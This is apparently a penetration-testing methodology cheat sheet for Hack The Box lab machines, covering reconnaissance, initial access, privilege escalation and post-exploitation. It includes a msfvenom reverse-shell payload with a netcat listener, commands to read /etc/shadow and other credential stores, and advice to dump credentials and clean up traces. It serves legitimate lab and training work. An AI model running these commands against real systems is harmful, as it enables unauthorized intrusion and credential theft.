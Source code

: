 ```yaml
---
title: "Methodologies"
date: 2025-06-28 14:42:00 +0500
categories: [Methodologies]
tags: [HTB]
---
```


## 1. Reconnaissance (Enumeration)

### Objective:

Identify open services, gather information about the target system, and uncover potential attack vectors.

### Tools & Techniques:

#### Basic Network Scanning

```bash
nmap -sC -sV -oN nmap/initial <target-ip>
```

* `-sC`: Run default scripts
* `-sV`: Version detection
* `-oN`: Output to file

#### Full Port Scan (for deeper service discovery)

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap/allports <target-ip>
```

* `-p-`: All 65535 ports
* `--min-rate`: Speed up the scan

#### Targeted Service Scanning

After identifying services:

* **HTTP**: `nikto`, `gobuster`, `feroxbuster`, `whatweb`, `wpscan`
* **SMB**: `enum4linux`, `smbclient`, `crackmapexec`
* **FTP**: Anonymous login, `nmap --script ftp*`
* **SSH**: Banner grabbing, user bruteforce with `hydra`, check for weak keys
* **DNS**: `dig`, `nslookup`, `dnsrecon`
* **SNMP**: `onesixtyone`, `snmpwalk`

#### Directory/File Enumeration

```bash
gobuster dir -u http://<ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -x php,txt,html
```

#### Web Tech Stack & Analysis

* `whatweb`, `wappalyzer`, `curl -I`
* Manually browse with **Burp Suite** or **ZAP Proxy**

#### /etc/hosts

Edit `/etc/hosts` file to create hosts entry and tinker with the web interface.

```bash
sudo vim /etc/hosts
10.10.10.150 <box_name>.htb
```

---

## 2. Foothold (Initial Access)

### Objective:

Exploit a vulnerability or misconfiguration to gain low-level access (usually a user shell).

### Techniques & Tools:

#### Web Exploitation

* **Check CMS**: Use `wpscan`, `joomscan`
* **Upload forms, RCE, LFI, SQLi**: Use `Burp Suite`, `sqlmap`
* **Authenticated functionality**: Use `ffuf`/`wfuzz` to fuzz
* **Exposed Git repos**: Download `.git` and extract

#### Exploits

* Search for public exploits:

  ```bash
  searchsploit <service/version>
  ```

  Or use `exploitdb`, `github`, `CVE` search

* Use `Metasploit` for known vulnerable services (optional if allowed)

#### Reverse Shell

Generate a reverse shell payload:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<your-ip> LPORT=4444 -f elf > shell.elf
python3 -m http.server 80   # to host payload
```

Catch it with:

```bash
nc -lvnp 4444
```

---

## 3. Privilege Escalation (Root)

### Objective:

Elevate privileges from a foothold user to `root` or `NT AUTHORITY\SYSTEM`.

### Tools & Techniques:

#### Manual Enumeration

Run the following script from your foothold:

```bash
linpeas.sh, linenum.sh, lse.sh (for Linux)
winPEASx64.exe, PowerUp.ps1 (for Windows)
```

Or manually check:

* **SUID binaries**: `find / -perm -4000 2>/dev/null`
* **Cron jobs**: `cat /etc/crontab`, `/etc/cron.*`
* **Scheduled tasks (Windows)**: `schtasks /query /fo LIST /v`
* **Misconfigured services**: `systemctl list-units --type=service`
* **Environment variables**: `env`, `PATH` issues

#### Kernel Exploits

Check kernel version:

```bash
uname -a
```

Search for privilege escalation:

```bash
searchsploit linux kernel <version>
```

#### Password Reuse & Creds

* Check `/etc/passwd`, `/etc/shadow`, saved credentials in `.bash_history`, scripts, config files
* Try `sudo -l`

#### Exploiting Sudo Rights

```bash
sudo -l
```

Use [GTFOBins](https://gtfobins.github.io/) or [LOLBAS](https://lolbas-project.github.io/) for binaries you can exploit with sudo privileges.

---

## 4. Post Exploitation

* Dump credentials
* Lateral movement if applicable (less common on HTB standalone)
* Cleanup traces if needed

---

## Tool Summary Table

| Phase             | Tools                                                                               |
| ----------------- | ----------------------------------------------------------------------------------- |
| Recon             | `nmap`, `gobuster`, `feroxbuster`, `whatweb`, `enum4linux`, `smbclient`, `snmpwalk` |
| Foothold          | `searchsploit`, `msfvenom`, `sqlmap`, `Burp`, `wpscan`                              |
| Priv. Escalation  | `linpeas`, `winPEAS`, `pspy`, `sudo -l`, `GTFOBins`                                 |
| Post Exploitation | `hashdump`, `netstat`, `ss`, `history`, `creds`                                     |

---
